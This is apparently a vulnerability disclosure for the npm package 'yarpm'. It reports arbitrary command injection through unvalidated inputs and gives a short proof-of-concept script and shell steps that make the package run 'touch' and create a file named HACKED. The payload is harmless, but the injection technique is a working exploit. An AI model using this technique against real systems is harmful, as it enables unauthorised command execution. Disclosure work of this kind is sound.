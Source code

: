 # Description

The `yarpm` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
const yarpm = require('yarpm');
yarpm(['HACKED'], {npmPath:'touch'});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i yarpm # Install affected module
node poc.js #  Run the PoC
```
14 Recheck the files: now `HACKED` has been created
